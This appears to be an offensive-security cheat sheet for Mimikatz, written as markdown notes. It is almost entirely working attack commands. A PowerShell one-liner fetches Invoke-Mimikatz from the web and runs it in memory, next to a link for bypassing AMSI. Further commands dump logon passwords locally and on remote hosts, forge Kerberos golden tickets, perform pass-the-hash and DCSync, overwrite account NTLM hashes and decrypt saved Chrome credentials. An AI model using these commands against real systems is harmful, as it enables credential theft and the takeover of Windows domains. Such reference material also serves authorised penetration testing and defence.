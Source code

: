 # PowerShell
## Add to PowerShell
- [Patch amsi.dll](https://github.com/okazymyrov/piki/blob/master/PowerShell.md#patching-amsidll-amsiscanbuffer-by-rasta-mouse)
```powershell
[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12
iex(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/BC-SECURITY/Empire/master/empire/server/data/module_source/credentials/Invoke-Mimikatz.ps1')
```

## Invoke-Mimikatz custom commands
```powershell
Invoke-Mimikatz -Command '"log mimi.log" "privilege::debug" "token::elevate" "sekurlsa::logonpasswords"'
```

## Invoke-Mimikatz custom commands on remote machines
```powershell
Invoke-Mimikatz -Command '"privilege::debug" "token::elevate" "sekurlsa::logonpasswords" "sekurlsa::credman"' -ComputerName @("<hostname1>.domain.local", "<hostname2>.domain.local")
```

# Lists all available provider credentials
```console
mimikatz "log" "privilege::debug" "token::elevate" "sekurlsa::logonpasswords" "exit"
```

# kerberos
## Make a Golden ticket
```console
kerberos::golden /user:domain\<username> /domain:<domain>.local /sid:<sid> /aes256:<aes256_hmac> /id:<user_id> /groups:<group_id> /startoffset:0 /endin:600 /renewmax:10080 /ticket:<user.domain.kirbi>
```

SID can be found by [wmic](https://github.com/okazymyrov/piki/blob/master/wmic.md#get-sids-of-domains) or 
```console
whoami /all
```

# sekurlsa
## Path-the-hash
```console
privilege::debug
sekurlsa::pth /user:<user> /aes256:<aes256_hmac> /domain:<domain> /run:cmd.exe
```

# lsadump

## dcsync
```console
log <domain>.<user>.log
lsadump::dcsync /domain:<domain>.local /user:<domain>\<user>
```

## changentlm
> **Note**
> While lsadump::setntlm seems to work multiple times for the same user account, this is not the case for lsadump::changentlm ([link](https://github.com/gentilkiwi/mimikatz/issues/201#issuecomment-483788010)).
 
### Password string 
```console
lsadump::changentlm /server:<dc>.<domain>.local /user:<user> /oldntlm:<ntlm> /newpassword:<password>
```
### NTLM
```console
lsadump::changentlm /server:<dc>.<domain>.local /user:<user> /oldntlm:<ntlm> /newntlm:<rc4>
```

## setntlm
```console
lsadump::setntlm /server:<dc>.<domain>.local /user:<user> /ntlm:<ntlm>
```

# token
## elevate
```console
token::elevate [/user:<user>] [/process:<id>]
```

# dpapi
## chrome
> **Note**
> Key can be obtained using [ChromiumKeyDump](https://github.com/crypt0p3g/bof-collection)).
```console
dpapi::chrome /in:"C:\Users\Administrator\Downloads\Login Data" /key:<hex>
```
